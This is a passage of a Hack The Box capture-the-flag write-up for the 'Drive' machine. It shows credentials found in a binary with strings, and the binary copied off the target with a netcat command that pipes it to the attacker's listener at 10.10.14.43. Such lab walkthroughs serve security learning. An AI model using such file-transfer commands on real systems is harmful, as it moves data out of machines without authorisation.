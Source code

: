 # Strings

Strings was able to find the username and password stored within the binary itself.

![444ecf94facc6dcf88e069ae9025a30e.png](/assets/img/444ecf94facc6dcf88e069ae9025a30e.png)

# Inputting Password

After entering the username and password it presented a number of options. To proceed further it will be best to reverse the binary and inspect the logic.

![e3415bc5acafdb0b710d7aa680bedffd.png](/assets/img/e3415bc5acafdb0b710d7aa680bedffd.png)

# Transferring Binary

Transferred the binary to my machine using netcat.

```
tom@drive:~$ cat doodleGrive-cli | nc 10.10.14.43 9010
^C
tom@drive:~$ md5sum doodleGrive-cli 
bcf1325637d56435b87b4c472530ed56  doodleGrive-cli
```

```
┌──(kali㉿kali)-[~/hackthebox/drive]
└─$ nc -lvnp 9010 > binary
listening on [any] 9010 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.11.235] 55744
                                                                         
┌──(kali㉿kali)-[~/hackthebox/drive]
└─$ mv binary doodleGrive-cli  
                                                                         
┌──(kali㉿kali)-[~/hackthebox/drive]
└─$ md5sum doodleGrive-cli 
bcf1325637d56435b87b4c472530ed56  doodleGrive-cli

```
